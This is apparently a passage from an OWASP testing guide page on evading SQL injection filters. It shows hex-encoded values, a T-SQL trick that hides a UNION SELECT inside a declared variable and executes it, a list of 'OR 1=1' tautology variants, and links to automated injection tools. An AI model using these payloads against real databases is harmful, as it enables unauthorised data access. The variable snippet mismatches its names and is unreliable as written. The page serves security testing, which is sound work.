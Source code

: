 The SQL statement by using HEX value will be:

          Select user from users where name = 726F6F74

or

          Select user from users where name = unhex('726F6F74')

#### Declare variables

Declare the SQL injection statement into variable and execute it.

For example, SQL injection statement below

       Union Select password

Define the SQL statement into variable SQLivar

     ; declare @SQLivar nvarchar(80); set @myvar = N'UNI' + N'ON' + N' SELECT' + N'password'); 
    EXEC(@SQLivar) 

==== Alternative Expression of 'or 1 = 1' ====

-   OR 'SQLi' = 'SQL'+'i'
-   OR 'SQLi' &gt; 'S'
-   or 20 &gt; 1
-   OR 2 between 3 and 1
-   OR 'SQLi' = N'SQLi'
-   1 and 1 = 1
-   1 || 1 = 1
-   1 && 1 = 1

Tools
-----

-   SQL Injection Fuzz Strings (from wfuzz tool) - <https://wfuzz.googlecode.com/svn/trunk/wordlist/Injections/SQL.txt>
-   [OWASP SQLiX](:Category:OWASP_SQLiX_Project "wikilink")
-   Francois Larouche: Multiple DBMS SQL Injection tool - [SQL Power Injector](http://www.sqlpowerinjector.com/index.htm)\
-   ilo--, Reversing.org - [sqlbftools](http://packetstormsecurity.org/files/43795/sqlbftools-1.2.tar.gz.html)\
-   Bernardo Damele A. G.: sqlmap, automatic SQL injection tool - <http://sqlmap.org/>
-   icesurfer: SQL Server Takeover Tool - [sqlninja](http://sqlninja.sourceforge.net)
-   Pangolin: Automated SQL Injection Tool - [Pangolin](http://www.nosec.org/en/productservice/pangolin/)
-   Muhaimin Dzulfakar: MySqloit, MySql Injection takeover tool - <http://code.google.com/p/mysqloit/>
-   Antonio Parata: Dump Files by SQL inference on Mysql - [SqlDumper](http://sqldumper.ruizata.com/)\
-   [bsqlbf, a blind SQL injection tool](https://code.google.com/p/bsqlbf-v2/) in Perl

References
----------

-   [Top 10 2013-A1-Injection](Top_10_2013-A1-Injection "wikilink")
-   [SQL Injection](SQL_Injection "wikilink")
